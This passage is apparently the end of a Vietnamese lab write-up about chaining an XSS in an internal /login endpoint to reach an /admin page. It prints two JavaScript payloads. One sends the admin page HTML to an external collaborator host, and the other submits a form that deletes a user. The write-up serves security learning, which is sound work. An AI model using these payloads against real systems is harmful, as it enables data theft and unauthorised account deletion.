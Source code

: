 Deliver exploit to victim, ta nhận được request như mong muốn → interal endpoint /login bị dính XSS.

![image](https://hackmd.io/_uploads/rJ-B-TMT6.png)

Tận dụng XSS của internal service đó để truy cập trang /admin của ứng dụng hiện tại do ứng dụng trust tất cả các origin từ internal network.
Payload XSS sẽ là load 1 frame của trang /admin và trả mã HTML về collaborator.

```javascript!
<script>
function xss(url, text, vector) {
	location = url + '/login?username='+encodeURIComponent(vector)+'&password=test';
}

function fetchUrl(url, collaboratorURL){
	fetch(url).then(r => r.text().then(text => {
		xss(url, text, '"><iframe src=/admin onload="new Image().src=\''+collaboratorURL+'?code=\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)">');
	}))
}

fetchUrl("http://192.168.0.235:8080", "http://vutd7wsn1w8itz4bl0yqhbjhm8szgp4e.oastify.com");
</script>
```

Gửi payload cho nạn nhân qua exploit-server, ta nhận được request trả về chứa mã nguồn HTML trang /admin. Ta thấy có 1 form post đến `/admin/delete` để delete user theo username

![image](https://hackmd.io/_uploads/r1Llf6z6a.png)

![image](https://hackmd.io/_uploads/ByHGG6Mp6.png)

và mình đã truy cập được vào trang quản trị

- bây giờ mình chỉ cần xóa carlos với payload XSS

```javascript!
<script>
function xss(url, text, vector) {
	location = url + '/login?username='+encodeURIComponent(vector)+'&password=test';
}

function fetchUrl(url){
	fetch(url).then(r => r.text().then(text => {
		xss(url, text, '"><iframe src=/admin onload="var f=this.contentWindow.document.forms[0];if(f.username)f.username.value=\'carlos\',f.submit()">');
	}))
}

fetchUrl("http://192.168.0.235:8080");
</script>
```

![image](https://hackmd.io/_uploads/B1jaM6fpp.png)
